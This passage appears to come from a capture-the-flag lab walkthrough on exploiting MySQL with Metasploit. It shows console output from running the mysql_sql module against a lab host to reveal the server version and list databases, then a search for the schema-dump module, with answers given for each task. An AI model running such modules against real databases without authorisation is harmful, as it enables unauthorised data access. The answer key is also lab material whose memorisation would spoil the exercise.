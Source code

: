 1. Run the exploit. By default it will test with the "select version()" command, what result does this give you?<br>
    ```
    msf6 auxiliary(admin/mysql/mysql_sql) > run
    [*] Running module against 10.10.70.91
    [*] 10.10.70.91:3306 - Sending statement: 'select version()'...
    [*] 10.10.70.91:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
    [*] Auxiliary module execution completed
    ```
    **Answer:** 5.7.29-0ubuntu0.18.04.1

1. Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?<br>
    ```
    msf6 auxiliary(admin/mysql/mysql_sql) > run
    [*] Running module against 10.10.70.91
    [*] 10.10.70.91:3306 - Sending statement: 'show databases'...
    [*] 10.10.70.91:3306 -  | information_schema |
    [*] 10.10.70.91:3306 -  | mysql |
    [*] 10.10.70.91:3306 -  | performance_schema |
    [*] 10.10.70.91:3306 -  | sys |
    [*] Auxiliary module execution completed
    ```
    **Answer:** 4

### Task 10 - Exploiting MySQL
1. First, let's search for and select the "mysql_schemadump" module. What's the module's full name?<br>
    ```
    msf6 auxiliary(admin/mysql/mysql_sql) > search mysql_schema

    Matching Modules
    ================

    #  Name                                      Disclosure Date  Rank    Check  Description
    -  ----                                      ---------------  ----    -----  -----------
    0  auxiliary/scanner/mysql/mysql_schemadump  .                normal  No     MYSQL Schema Dump


    Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_schemadump
    ```
    **Answer:** auxiliary/scanner/mysql/mysql_schemadump

1. Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?<br>